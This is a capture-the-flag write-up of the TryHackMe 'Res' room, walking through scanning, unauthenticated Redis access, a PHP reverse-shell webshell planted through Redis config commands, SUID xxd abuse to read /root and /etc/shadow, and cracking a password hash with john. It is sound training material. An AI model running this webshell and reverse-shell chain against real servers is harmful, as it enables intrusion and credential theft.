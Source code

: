 ```yaml
---
title: THM - Res
date: 2023-10-17
categories: [CTF, Fullpwn]
tags: [thm, tryhackme, nmap, redis, rce, webshell, php, gtfobins, john, suid]
img_path: /assets/thm/fullpwn/res/
mermaid: true
---
```


![room_banner](room_banner.png)

## 1 Summary

[![](https://mermaid.ink/img/pako:eNptkLtuwzAMRX9FUBcZSILMGgrUj_SBFAGcdNNCyHQs2KYMSe4DQX6kS-f-XT-hspOhQ7VQuDy8vOCJa1shl7zu7JtuwAW2LRWx-O5EQWOPDoKxlLDlklEPA1OKHkC3B2d066N6y1JRYmV8chlLJ_IPMfHm2Oxoldm6RpwEwqAhRNCyTIgyK5JESumwmqVcjB7dKrwH9vP1-X1tXdyzSNwfNrvU0Gy9f3nMp_pkG2KHBllphgHdnKsQWwgxf8ee7Sv2SOEasZjWbISzNvy3RZEi3YH3OdZsCuWDsy3Km3q95gseT9KDqeLNTjPNQxPNFZfxW4FrFVd0jhyMwe4_SHMZ3IgLPg5VjJMbODrouayh83j-BY4SfV4?type=png)](https://mermaid.live/edit#pako:eNptkLtuwzAMRX9FUBcZSILMGgrUj_SBFAGcdNNCyHQs2KYMSe4DQX6kS-f-XT-hspOhQ7VQuDy8vOCJa1shl7zu7JtuwAW2LRWx-O5EQWOPDoKxlLDlklEPA1OKHkC3B2d066N6y1JRYmV8chlLJ_IPMfHm2Oxoldm6RpwEwqAhRNCyTIgyK5JESumwmqVcjB7dKrwH9vP1-X1tXdyzSNwfNrvU0Gy9f3nMp_pkG2KHBllphgHdnKsQWwgxf8ee7Sv2SOEasZjWbISzNvy3RZEi3YH3OdZsCuWDsy3Km3q95gseT9KDqeLNTjPNQxPNFZfxW4FrFVd0jhyMwe4_SHMZ3IgLPg5VjJMbODrouayh83j-BY4SfV4)

## 2 Background Information

### 2.1 Redis

[Redis](https://backendless.com/redis-what-it-is-what-it-does-and-why-you-should-care/) is a type of database that stores data entirely in main memory (RAM) rather than on disk. 

Its main benefit is that it provides **faster access** compared to a traditional disk-storaged database, and its main drawback is that it's **sensitive to data loss** in the event of a shutdown or a crash, since it is stored in memory.

![redis-flow](redis-flow.png)

Other than the knowledge of what Redis is, we don't really need much else to work our way through this room. To be honest, even that knowledge isn't necessary, but I find it always better to learn as much as possible for the technologies I am working with. 

If someone has used Redis before, and knows how to interact with it through CLI it will be beneficial for sure, but we will learn the required commands through a [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#redis-rce) article anyway, so let's crack on 🏃‍♀️!

## 3 CTF Process

### 3.1 Port-scanning

The first question asks us about the number of open ports, so let's start with an **nmap port-scan**.

![nmap-results_common_ports](nmap-scan_without_all_ports.png)

We can see an Apache web server listening to port 80, although, this does not seem like the right answer to the question.

The default command, that is without any port specification, scans the [**most common 1,000 ports for each protocol**](https://nmap.org/book/man-port-specification.html#:~:text=By%20default%2C%20Nmap%20scans%20the,1%2C000%20ports%20for%20each%20protocol.&text=This%20option%20specifies%20which%20ports,(e.g.%201%2D1023%20).), so we can try scanning for all 65_535 ports by adding the `-p` option:

![nmap-scan-all-ports](nmap-scan-all-ports.png)

Now, a **Redis server on port 6379** appears, and the information provided allows us to answer the next three questions 🥂!

### 3.2 Redis to RCE

[This](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis) excellent **HackTricks** article provides info on how to connect to Redis. In addition, it let us know that **by default Redis can be accessed without credentials**! 

Futhermore, the article suggests to us trying the `info` command first. The ouput of this command will reveal if authentication is needed for accessing the Redis instance. If it does, the following message will show up: `-NOAUTH Authentication required.` If not, it will return output with Redis instance's info. 

So, let's try it:

![redis_login](redis_connection.jpg)

We are in without needing any credentials, and we also have a username at hand 🎉!

The same [article](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#redis-rce) lists two ways on how to get **Remote Code Execution (RCE)**:
1. Using the `redis-rogue-server` python script, but this only works for versions `<= 5.0.5`, thus, we can't use it as our target uses `6.0.7`.
2. Creating a **PHP Webshell**, with the prerequisite to know the *path of the Web site folder*. Based on our **nmap scan**, we know that we have an **Apache web server**, and by asking Google, we can find out its default directory:

![default_dir_apache](default_dir_apache.png)

 So let's trying to get our reverse shell:
 1. To begin with, we need to create a reverse shell, this time using a PHP reverse shell from the [Highon.coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/#php-reverse-shell) blog. Note that we need to **escape** the double quotes inside our command with `\`, otherwise it won't work!

    ```bash
    # define the path of Apache's default directory
    config set dir /var/www/html/
    # create a "subdirectory" to host our reverse shell 
    config set dbfilename webshell.php
    # our reverse shell code
    set webshell.php "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/<attacking-ip>/12345 0>&1'\"); ?>"
    # save our configuration
    save
    ```

 2. We then have to set up a listener to our machine:
 
    ```bash
    nc -lnvp 12345
    ```

 3. Finally, by visiting the newly-created server's subdirectory on our browser, `http://\<target-ip\>/webshell.php`, we receive our reverse shell 🎊!
  
    ![rce_setup](rce_setup.png)
 
With our **initial foothold** established, let's search for `user.txt`:

![flag1](flag1.jpg)

First 🚩 captured!

### 3.3 Privilege Escalation with SUID binaries 

The next question wants us to find the local user account's password. We already saw user `vianka` when first logged-in in Redis, and we saw it again while getting our first flag under `/home/vianka/user.txt`. 

When trying to switch to this user, we get the message: `su: must be run from a terminal`. Thus, we need to upgrade our shell, and then find a way to discover `vianka`'s password!

![su_tty](su_tty.png)

It is always worth searching for files with [SUID](https://www.scaler.com/topics/special-permissions-in-linux/) permissions set, as it is often an easy way to do PrivEsc. 

![suid](suids.jpg)

We have done this a couple of times so far, and `usr/bin/xxd` does not seem like a binary that is usually on this list. As we always do when we want to check for SUID file's potential exploits, let's visit [GTFOBins](https://gtfobins.github.io/#xxd): 

![xxd_suid](xxd_suid.png)

Based on GTFOBins, we can use the `xxd` binary to read any file we want, since it will run as root. We can use this to answer the room's last two questions:
1. We can assume that the `root.txt` file is located under the `/root` directory. As a result, we can define the `LFILE` variable as `/root/root.txt` and snatch the root 🚩.
2. We can do the same process for reading the `/etc/shadow` file in order to get `vianka`'s hash. Then, we can combine `vianka`'s info found on `/etc/passwd` file, and use both for unshadowing, and finally crack the hash with `john`.

Let's start by trying to read `root.txt` first. We need to make sure to either be within `xxd`'s directory, by typing `cd /usr/bin/`, or provide the full path, that is `/usr/bin/xxd`.

![flag2](flag2.jpg)

That was easy enough, and we have now captured our second 🚩. Let's go for some hash cracking now and get `vianka`'s password 🔒!

### 3.4 Hash Cracking with John The Ripper

1. Let's start by reading the `shadow` file, copying `vianka`'s information, and pasting it into a file on our machine:

    ![xxd_shadow](xxd_shadow.png)

2. We need to also copy and paste `vianka`'s info from the `passwd` file into another file on our local machine:

    ![passwd](passwd.png)

3. Now, all we have to do is to unshadow the files locally, and pass the unshadowed file to `john` so he can do its magic 🪄:

    ![john](john_vianka.jpg)

And that's us done 🍻!
